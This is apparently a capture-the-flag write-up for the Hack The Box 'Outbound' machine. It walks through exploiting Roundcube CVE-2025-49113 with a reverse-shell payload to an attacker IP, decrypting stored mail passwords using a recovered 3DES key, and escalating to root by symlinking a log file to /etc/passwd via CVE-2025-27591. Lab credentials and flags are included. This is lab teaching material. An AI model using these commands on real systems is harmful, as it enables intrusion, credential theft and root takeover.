


Let's scan the car:
```bash
sudo nmap -v -sC -sV 10.10.11.77 -oN nmap/initial
```
```bash
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://mail.outbound.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The machine description contains the following credentials: `tyler / LhKL1o9Nm3X2`. Let's log in under them:


<div style="page-break-after: always;"></div>

We get to the mail application


In `About` we see that it is `Roundcube Webmail 1.6.10`. Let's try to find something about it on the Internet.
There is an article by **Offsec**: https://www.offsec.com/blog/cve-2025-49113/
There is also a link to the exploit: https://github.com/fearsoff-org/CVE-2025-49113
We exploit this vulnerability:
```bash
php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 "bash -c 'bash -i >& /dev/tcp/10.10.14.164/4444 0>&1'"
```
```bash
sudo ncat -lvnp 4444
```


#### How it works
There is endpoint `program/actions/settings/upload.php`, which handles uploading an avatar/signature from the **Settings → Identities** menu.
The request itself looks like this:


The code reads the `_from` parameter like this:
```PHP
$from = rcube_utils::get_input_string('_from', rcube_utils::INPUT_GET);
$type = preg_replace('/(add|edit)-/', '', $from);
…
$rcmail->session->append($type.'.files', $id, $attachment);
```
The `|` symbol is not filtered in any way. `$type` is then used as the **key name in the PHP session**.
<div style="page-break-after: always;"></div>

When writing to a file, each pair of the form `key | serialize(value)` is separated by the same `|` character. Therefore, if an attacker inserts `|` inside the key name, everything after it will end up in the file **as an already serialized value**.

The exploit does two things at once:
1. In the `_from` field, we slip `edit-identityO:34:"Crypt_GPG_Engine":1:{s:18:"\0*\0processString";s:⟨cmd⟩;}`.
2. Loads an image so that the code reaches `session->append()` and serialization becomes correct.

In the `Crypt_GPG` library supplied with Roundcube, the `Crypt_GPG_Engine` class in the destructor (`__destruct`) calls `proc_close()`/`proc_terminate()`, and before that it collects a command from the `processString` property.

**On the next HTTP request** PHP downloads (`session_decode`) the file, `unserialize()`s our object, magic methods are called, and the command from `processString` is executed on behalf of `www-data`.

Thus, one login to Roundcube + downloading the "picture" is enough to get a shell on the server.

Here's what it looks like:
```pgsql
┌──────────────┐
│  Attacker    │
│  (auth user) │
└────┬─────────┘
     │ 1. POST /settings/upload.php
     │    _from = edit-identity|O:34:"Crypt_GPG_Engine":…
     │    _file[name] = avatar.png
     ▼
┌────────────────────┐      2. PHP session writer
│  Roundcube PHP     │─────► "edit-identity" key |
│  (1st request)     │      O:34:"Crypt_GPG_Engine":…
└────────────────────┘
     ▲
     │ 3. Any follow-up request
     │
┌────────────────────┐      4. session_decode()
│  Roundcube PHP     │─────► unserialize() → object created
│  (2nd request)     │
│                    │      5. __destruct → proc_open("bash -c …")
└────────────────────┘
```


We got a reverse shell and looked at what users there are.
A `roundcube` directory was found, which contained a `config` directory. It contained files. The most interesting of them is `config.inc.php`:


Here we see the full `MySQL` credentials and the key that `Roundcube` uses to encrypt user passwords in the database - `rcmail-!24ByteDESkey*Str`.
The `roundcube/SQL` directory was found. Let's output what is in this database and see what is in the `users` table:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "SELECT * FROM users;"
```


There is no `password` in this table. Let's see what's in the `session` table:
```bash
mysql -u roundcube -pRCDBPass2025 roundcube -e "SELECT * FROM session;"
```



Here is the information encoded in `base64`. We decode it on the website https://cyberchef.io


```hash
L7Rv00A8TuwJAr67kITxxcSgnIk25Am/
```
We received an encrypted password. Most likely, it is decrypted using the same key that we found earlier. Let's write a **Python** script that will decrypt it:
```PHP
from base64 import b64decode
from Crypto.Cipher import DES3 # pip install pycryptodome

enc = "L7Rv00A8TuwJAr67kITxxcSgnIk25Am/"
key = b"rcmail-!24ByteDESkey*Str" # 24 bytes
data = b64decode(enc)

iv, ct = data[:8], data[8:]
cipher = DES3.new(key, DES3.MODE_CBC, iv)
plain = cipher.decrypt(ct).rstrip(b"\0") # zero-padding

print(plain.decode())
```


```Password
595mO8DmwGeD
```
After trying to connect to `jacob` via SSH with this password, the password did not work. Let's try to switch to this user via `su`:


<div style="page-break-after: always;"></div>

There is a `mail` directory. We go down the directories and see the letter:


A different password has appeared. Let's connect via SSH:
```
gY4Wr3a1evp4
```


```flag
cfd464e7fb6736f8dcf099c2cf95936b
```
Let's see what commands we can execute with `sudo`:



This is [CVE-2025-27591](https://security.opensuse.org/2025/03/12/below-world-writable-log-dir.html).
The idea is that when the vulnerable binary `below` runs, it writes to `error_jacob.log`, but since that log file now points to `/etc/passwd`, it ends up writing my fake user to that system file. Then run it and log in as root.

Create user `roo2` with password `1` (this password is obtained by `perl -e 'print crypt("1","aa")'`)
```shell
echo 'root2:aacFCuAIHhrCM:0:0:,,,:/root:/bin/bash' > root2
```
Delete the file with the error.
```shell
rm error_root.log
```
Link `/etc/passwd` to the file with the error, so that it is automatically created when the program runs, instead of the file with the error.
```shell
ln -s /etc/passwd /var/log/below/error_root.log
```
Run the script
```shell
sudo /usr/bin/below
```
Copy the fake user to the error log, and since we already linked the error log to `/etc/passwd`, it automatically goes to `/etc/passwd`.
```shell
cp root2 error_root.log
```
Change the user to our fake one. Enter the password `1`.
```shell
su root2
```


```flag
2c4aaa3f2080e5ef395c9f02382853e2
```
